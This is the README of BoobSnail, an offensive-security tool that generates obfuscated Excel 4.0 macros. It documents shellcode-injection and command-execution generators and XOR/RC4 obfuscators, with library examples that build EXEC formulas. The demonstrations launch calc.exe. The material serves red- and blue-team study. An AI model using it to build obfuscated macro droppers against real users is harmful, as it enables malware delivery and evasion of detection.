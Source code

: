 <p align="center">
  <img src="assets/boobsnail.png" width=300 height=300>
</p>

![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)

Follow us on [Twitter](https://twitter.com/stm_cyber)!

# BoobSnail
BoobSnail allows generating XLM (Excel 4.0) macro. Its purpose is to support the RedTeam and BlueTeam in XLM macro generation.
Features:
- various infection techniques;
- various obfuscation techniques;  
- translation of formulas into languages other than English;
- can be used as a library - you can easily write your own generator.
 
## Building and Running
Tested on: Python 3.8.7rc1
```
pip install -r requirements.txt
python boobsnail.py
___.                ___.     _________             .__.__
\_ |__   ____   ____\_ |__  /   _____/ ____ _____  |__|  |
 | __ \ /  _ \ /  _ \| __ \ \_____  \ /    \__  \ |  |  |
 | \_\ (  <_> |  <_> ) \_\ \/        \   |  \/ __ \|  |  |__
 |___  /\____/ \____/|___  /_______  /___|  (____  /__|____/
     \/                  \/        \/     \/     \/
     Author: @_mzer0 @stm_cyber
     (...)
```
## Generators usage

```
python boobsnail.py <generator> -h
```

To display available generators type:
```
python boobsnail.py
```

### Examples
Generate obfuscated macro that injects x64 or x86 shellcode:
```
python boobsnail.py Excel4NtDonutGenerator --inputx86 <PATH_TO_SHELLCODE> --inputx64 <PATH_TO_SHELLCODE> --out boobsnail.csv
```

Generate obfuscated macro that runs calc.exe:
```
python boobsnail.py Excel4ExecGenerator --cmd "powershell.exe -c calc.exe" --out boobsnail.csv
```
### Saving output in Excel
1. Dump output to CSV file.
2. Copy content of CSV file.
3. Run Excel and create a new worksheet.
4. Add new Excel 4.0 Macro (right-click on Sheet1 -> Insert -> MS Excel 4.0 Macro).
5. Paste the content in cell A1 or R1C1.
6. Click Data -> Text to Columns.
7. Click Next -> Set Semicolon as separator and click Finish.

## Library usage
BoobSnail shares the excel4lib library that allows creating your own Excel4 macro generator.
excel4lib contains few classes that could be used during writing generator:
- excel4lib.macro.Excel4Macro - allows to defining Excel4 formulas, values variables;
- excel4lib.macro.obfuscator.Excel4Obfuscator - allows to obfuscate created instructions in Excel4Macro;
- excel4lib.lang.Excel4Translator - allows translating formulas to another language.

The main idea of this library is to represent Excel4 formulas, variables, formulas arguments, and values as python objects.
Thanks to that you are able to change instructions attributes such as formulas or variables names, values, addresses, etc. in an easy way.
For example, let's create a simple macro that runs calc.exe
```python
from excel4lib.macro import *
# Create macro object
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=EXEC(cmd);
```
Now let's say that you want to obfuscate your macro. To do this you just need to import obfuscator and pass it to the Excel4Macro object:
```python
from excel4lib.macro import *
from excel4lib.macro.obfuscator import *
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
For now excel4lib shares two obfuscation classes:
- excel4lib.macro.obfuscator.Excel4Obfuscator uses Excel 4.0 functions such as BITXOR, SUM, etc to obfuscate your macro;
- excel4lib.macro.obfuscator.Excel4Rc4Obfuscator uses RC4 encryption to obfusacte formulas.

As you can see you can write your own obfuscator class and use it in Excel4Macro.

Sometimes you will need to translate your macro to another language for example your native language, in my case it's Polish. With excel4lib it's pretty easy.
You just need to import Excel4Translator class and call set_language
```python
from excel4lib.macro import *
from excel4lib.lang.excel4_translator import *
# Change language
Excel4Translator.set_language("pl_PL")
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=URUCHOM.PROGRAM(cmd);
```
For now, only the Polish language is supported. If you want to use another language you need to add translations in the excel4lib/lang/langs directory.

For sure, you will need to create a formula that takes another formula as an argument. You can do this by using Excel4Macro.argument function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Create CONCATENATE formula that CONCATENATEs cmd_1 and cmd_2
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
macro.formula("EXEC", exec_arg)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";
.exe;
=EXEC(CONCATENATE(cmd,R2C1));
```
As you can see ".exe" string was passed to CONCATENATE formula as R2C1. 
R2C1 is address of ".exe" value (ROW number 2 and COLUMN number 1).
excel4lib returns references to formulas, values as addresses. References to variables are returned as their names.
You probably noted that Excel4Macro class adds formulas, variables, values to the worksheet automaticly in order
in which these objects are created and that the start address is R1C1.
What if you want to place formulas in another column or row?
You can do this by calling Excel4Macro.set_cords function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Column 1
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Column 2
# Change cords to columns 2
macro.set_cords(2,1)
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
exec_call = macro.formula("EXEC", exec_arg)
# Column 1
# Back to column 1. Change cords to column 1 and row 3
macro.set_cords(1,3)
# GOTO EXEC call
macro.goto(exec_call)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";=EXEC(CONCATENATE(cmd,R2C1));
.exe;;
=GOTO(R1C2);;
```

## Author
[mzer0](https://twitter.com/_mzer0) from [stm_cyber](https://twitter.com/stm_cyber) team!

## Articles
[The first step in Excel 4.0 for Red Team](https://blog.stmcyber.com/excel-4-0-for-red-team/)

[BoobSnail - Excel 4.0 macro generator](https://blog.stmcyber.com/boobsnail-excel-4-0-macro-generator/)
